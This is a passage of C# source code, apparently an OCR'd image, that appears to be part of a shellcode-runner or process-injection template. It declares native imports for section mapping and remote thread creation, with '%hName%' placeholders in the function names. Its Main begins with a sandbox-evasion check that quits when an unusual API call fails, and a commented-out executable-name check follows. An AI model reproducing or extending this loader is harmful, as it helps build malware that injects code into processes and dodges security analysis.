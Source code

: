             [DllImport("ntdll.dll", SetLastError = true)]
            static extern uint NtMaPView_%hName%OfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

            [DllImport("ntdll.dll", SetLastError = true)]
            static extern uint NtUnmaPView_%hName%OfSection(IntPtr hProc, IntPtr baseAddr);

            [DllImport("ntdll.dll", SetLastError = true)]
            static extern IntPtr RtlCreateUserThread(IntPtr processHandle, IntPtr threadSecurity, bool createSuspended, Int32 stackZeroBits, IntPtr stackReserved, IntPtr stackCommit, IntPtr startAddress, IntPtr parameter, ref IntPtr threadHandle, IntPtr clientId);

            [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
            static extern int NtClose(IntPtr hObject);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            // BEGIN DEBUG (imports)
            [DllImport("kernel32.dll", SetLastError = true)]
            static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

            [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
            static extern int memcmp(byte[] b1, byte[] b2, UIntPtr count);
            [DllImport("kernel32.dll", SetLastError = true)] static extern IntPtr FlsAlloc(IntPtr callback);

            static bool CompareByteArray(byte[] b1, byte[] b2)
            {
                return b1.Length == b2.Length && memcmp(b1, b2, (UIntPtr)b1.Length) == 0;
            }
            // END DEBUG

            static void Main(string[] args)
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                //PE name check:
                //string exename = "BasicRunner";
                //if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
                //{
                //    Console.WriteLine(Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]));
                //    return;
                //}
